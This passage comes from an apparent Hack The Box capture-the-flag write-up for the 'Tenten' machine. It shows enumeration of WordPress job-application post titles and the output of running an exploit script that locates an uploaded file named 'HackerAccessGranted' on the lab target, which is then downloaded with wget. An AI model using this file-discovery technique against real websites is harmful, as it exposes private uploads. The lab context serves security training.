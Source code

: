 ```bash
0: Job Application
1: Job Application: Hello world!
2: Job Application: Sample Page
3: Job Application: Auto Draft
4: Job Application
5: Job Application: Jobs Listing
6: Job Application: Job Application
7: Job Application: Register
8: Job Application: Pen Tester
9: Job Application:
10: Job Application: Application
11: Job Application: cube
12: Job Application: Application
13: Job Application: HackerAccessGranted
14: Job Application
15: Job Application
...
```

There’s an interesting `HackerAccessGranted` title! Apparently, this was the filename for the exploit.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# chmod +x exploit.py

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# python ./exploit.py
...
Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Tenten]
└─# wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
